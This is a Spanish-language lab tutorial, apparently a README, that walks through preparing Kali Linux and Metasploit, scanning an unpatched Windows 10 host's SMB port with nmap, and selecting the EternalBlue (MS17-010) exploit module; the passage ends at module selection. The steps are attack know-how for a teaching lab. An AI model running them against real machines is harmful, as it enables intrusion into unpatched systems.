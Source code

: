 Esta fue una de las vulnerabilidades usadas por **WannaCry**.

---

### 🖥️ Entorno de laboratorio

| Máquina    | Sistema Operativo  | Rol      |
| ---------- | ------------------ | -------- |
| Kali Linux | Kali (actualizado) | Atacante |
| Windows 10 | Versión sin parche | Víctima  |

> ⚠️ **La máquina Windows 10 debe tener desactivadas las actualizaciones automáticas** para reproducir vulnerabilidades antiguas.

---

#### 🛠️ Paso 1: Preparar la máquina Kali

##### ✅ Instalar Metasploit Framework (ya viene instalado en Kali, pero por si acaso):

```bash
sudo apt update
sudo apt install metasploit-framework -y
```

Iniciar Metasploit:

```bash
msfconsole
```

---

#### 🔍 Paso 2: Escanear la víctima (Windows 10)

Primero, identifica si la víctima tiene el puerto SMB abierto (puerto 445):

```bash
nmap -p 445 --script smb-os-discovery 192.168.1.105
```

(Usa la IP de la máquina Windows 10)

---

#### 🎯 Paso 3: Usar el exploit EternalBlue

Dentro de `msfconsole`, busca el módulo:

```bash
search eternalblue
```

Selecciona el exploit:

```bash
use exploit/windows/smb/ms17_010_eternalblue
```
